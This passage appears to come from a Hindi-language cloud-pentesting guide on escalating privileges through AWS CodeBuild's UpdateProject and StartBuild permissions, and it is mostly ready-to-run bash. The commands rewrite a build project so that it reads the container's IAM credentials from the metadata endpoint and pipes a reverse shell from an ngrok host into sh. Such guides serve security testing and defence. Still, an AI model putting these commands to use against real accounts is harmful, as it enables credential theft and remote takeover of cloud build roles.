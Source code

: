 ```bash
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
**संभावित प्रभाव:** किसी भी AWS Codebuild भूमिका के लिए सीधे प्रिवेस्क।

### `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

पिछले अनुभाग की तरह लेकिन **`iam:PassRole` अनुमति के बिना**, आप इस अनुमति का दुरुपयोग कर सकते हैं **मौजूदा Codebuild परियोजनाओं को संशोधित करने और उनकी पहले से निर्धारित भूमिका तक पहुंचने के लिए**।

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
